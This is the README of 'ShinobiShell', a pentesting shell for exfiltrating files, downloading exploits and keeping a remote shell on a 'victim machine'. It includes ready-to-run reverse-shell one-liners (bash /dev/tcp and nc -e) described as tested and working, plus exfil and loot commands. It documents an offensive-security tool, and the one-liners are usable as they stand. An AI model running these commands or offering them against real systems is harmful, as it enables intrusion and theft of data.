 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
usage: PROG [options]

Shinobi shell is a shell specifically designed to make exfiltration, proxying,
persistance and other pentesting actions easier.

optional arguments:
  -h, --help            show this help message and exit
  -a, --autoload	Listens for a incoming shell. Then autoloads shinobi shell onto the target
  -t, --ttyCheat        Shows tty shell cheat sheet (need a tty shell for shinobi shell to work)
  -c, --connect         Flag that indicates a reverse shell connection (use this on victim machine)
  -l LISTEN, --listen LISTEN
                        Starts Shinobi Shell listener on port passed in
  -k, --key             Will create an encrpyted tunnel if encrpytion libs available
  -r SERVERADDRESS, --serveraddress SERVERADDRESS
                        Local IP Address used for universal reverse shell
                        handler (optional - use if different than default)
```
## Start your server first:

### Server (Attacking box) 
`./shinobishell.py -l 4443 -k`

`-l` Port server will listen on

`-k` Requesting an encrypted tunnel server (optional but if used, required by all connections)


## OPTION 1: Run Shinobi Shell manually on the victim machine

Client (Penetrated box) 
`./shinobishell.py -c -k ` 

`-c` Connect back to a server

`-k` Try and make an encrytped tunnel

For both server and client, you'll be propmted for a password when using `-k`

For `-c` you will be prompted at run time for the server address

Both `-c` and `-k` were moved to runtime inputs to prevent leaking attacking machine address and key in bash history

## OPTION 2: Start a Shinobi Shell listener on your attacking machine and send it a shell

### Attacking Machine

`./shinobishell.py -a`
> Shinobi Tunnel Plaintext ~~ Be aware

> Which port to listen on: 1000

> What is the ShinobiServer address:port combination: 127.0.0.1:443


### Victim Machine

Send a reverse shell 

(tested and known to work)

`/bin/bash -i >& /dev/tcp/127.0.0.1/1000 0>&1`

`nc 127.0.0.1 1000 -e /bin/bash`

`nc 127.0.0.1 1000 -e /bin/sh`


## -h --help Help output

```
Shinobi Shell v1.0
Author: Anthony Russell
Contact: Twitter @DotNetRussell
Blog: https://DotNetRussell.com  (don't hack me bro)

Commands:

help -                      displays help information
machineinfo -               displays a series of machine variables to help with priv esc
searchsploit -              <search text> sends a searchsploit command back to your attacking machine and returns the results through shinobi tunnel
exfil <file name> -         exfiltrates a file back to your attacking machine via shinobi tunnel
ssdownload <exploit path> - downloads a search sploit exploit from your attacking machine
download <url> -            does a wget for your file on your attacking machine and then transfers it to you over shinobi tunnel
linenumdownlods -           linenum.sh to the Shinobi Server and then transfers it back to the client

Loot Chest:

loot store <key> <value> -  stores a key value pair in your loot chest
loot <key> -                gets a loot value
loot show -                 shows everything in loot chest

NOTE: Loot chest auto syncs with attacking machine
	
Auto Aliases
lsa == ls -la
```
